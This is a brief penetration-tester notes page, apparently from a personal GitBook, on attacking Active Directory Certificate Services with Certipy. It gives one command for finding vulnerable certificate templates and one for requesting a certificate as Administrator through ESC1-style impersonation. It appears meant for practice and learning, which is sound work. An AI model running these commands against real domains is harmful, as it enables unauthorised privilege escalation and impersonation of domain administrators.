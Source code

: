 # ADCS

## <mark style="color:yellow;">Certipy</mark>

### <mark style="color:blue;">Enumerate CA & Misconfigs</mark>

```bash
certipy find -u amogus@{DOMAIN} -p password -vulnerable -stdout -debug
```

### <mark style="color:blue;">Requesting a certificate</mark>

```bash
certipy req -k -no-pass -ca amgs-DC-CA -upn Administrator -target {DOMAIN}
```

> ADCS has a lot of misconfigs, from ESC1 to ESC13. I will add them here as long I would use it on practice at least once&#x20;

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://docs.google.com/spreadsheets/d/1E5SDC5cwXWz36rPP_TXhhAvTvqz2RGnMYXieu4ZHx64/edit?pli=1&gid=0#gid=0" %}
